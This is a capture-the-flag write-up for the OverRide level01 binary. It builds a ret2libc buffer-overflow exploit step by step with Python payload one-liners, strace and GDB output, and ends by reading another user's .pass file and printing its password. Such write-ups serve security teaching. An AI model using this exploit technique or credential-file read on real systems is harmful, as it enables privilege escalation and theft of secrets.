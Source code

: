 # Level 01

The program asks for a username and a password.
But this is irrelevent because either way we are doing nothing with it.
However we need the good username to be able to access the password input.
The password buffer is 64 char long, but `fgets()` reads 100 chars, here is our overflow.
We see in the source code that the function that checks the user needs the `dat_wil` username.

```bash
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
I have no clue (yet)
nope, incorrect password...
```

Nice, now lets try to overflow it.

```bash
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
nope, incorrect password...

Segmentation fault (core dumped)
level01@OverRide:~$ dmesg | tail -n1
[22893.142169] level01[7344]: segfault at 41414141 ip 0000000041414141 sp 00000000ffffd650 error 14
```

We see that we indeed have a segfault. Now we are going to do a ret2libc.
Basically we will change the return address to the one of `system()` to be able to launch a shell.

Lets try. `"\xd0\xae\xe6\xf7"` is the address of `system()`

```bash
level01@OverRide:~$ ./level01 < <(python -c 'print("dat_wil\n" + "*" * 80 + "\xd0\xae\xe6\xf7")')
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

sh: 1: %���: not found
Segmentation fault (core dumped)
```

Promising! We have this error: `sh: 1: %���: not found` that indicates that surely got into `system()`.
Lets verify with `strace` what happened.

```bash
level01@OverRide:~$ strace -f ./level01 < <(python -c 'print("dat_wil\n" + "*" * 80 + "\xd0\xae\xe6\xf7")')
[...]
execve("/bin/sh", ["sh", "-c", "\364\330\377\377"], [/* 29 vars */]) = 0
[...]
```

Yes, /bin/sh is executed. So now we just need to change the garbage data of the first argument: `\364\330\377\377`.
Instead we want to but a pointer to a string that reads "/bin/sh",
so it would be as if we did `/bin/sh -c /bin/sh` on a terminal.
For this we need to understand what will be on the stack at the moment of our code redirection.

```
+--------+--------------+
| $esp+8 |  0x????????  |	First argument, address of "/bin/sh"
+--------+--------------+
| $esp+4 |  0x????????  |	Address of the return of `system()`
+--------+--------------+
|  $esp  |  0xf7e6aed0  |	Address of the `system()` function
+--------+--------------+
```

This is how the stack is made when we redirect the execution.
We do not care where `system()` returns becaus it would've already done its job,
so I'm just gonna replace it with `AAAA` (`0x41414141`).
Now we only need to have the addres of "/bin/sh".
We can find it in the libc like this:

```bash
level01@OverRide:~$ grep -oba "/bin/sh" /lib32/libc-2.15.so 
1431532:/bin/sh
```
So the string is located 1431532 bits after the start of the libc.
We can check this information in GDB.

```gdb
(gdb) info proc map
process 1903
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
         0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0 
        0xf7fda000 0xf7fdb000     0x1000        0x0 
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) x/s 0xf7e2c000+1431532
0xf7f897ec:      "/bin/sh"
```

So the address of "/bin/sh" is `0xf7f897ec`. Lets try:

```bash
level01@OverRide:~$ strace -f ./level01 < <(python -c 'print("dat_wil\n" + "*" * 80 + "\xd0\xae\xe6\xf7" + "\x00\x00\x00\x00" + "\xec\x97\xf8\xf7")')
[...]
[pid  1980] execve("/bin/sh", ["sh", "-c", "/bin/sh"], [/* 29 vars */]) = 0
[...]
level01@OverRide:~$ ./level01 < <(python -c 'print("dat_wil\n" + "*" * 80 + "\xd0\xae\xe6\xf7" 
+ "\x00\x00\x00\x00" + "\xec\x97\xf8\xf7")')
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

Segmentation fault (core dumped)
```

Now we have the right `execve()` call, but we still have nothing.
It's normal because we didn't tell it to do anything. We need to add the padding to fill the `fgets()`  buffer, and then write `cat /home/users/level01/.pass\n`.

```bash
level01@OverRide:~$ ./level01 < <(python -c 'print("dat_wil\n" + "*" * 80 + "\xd0\xae\xe6\xf7" + "\x00\x00\x00\x00" + "\xec\x97\xf8\xf7" + "o" * 3996 + "cat /home/users/level02/.pass\n")')
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
Segmentation fault (core dumped)
```

Here we go!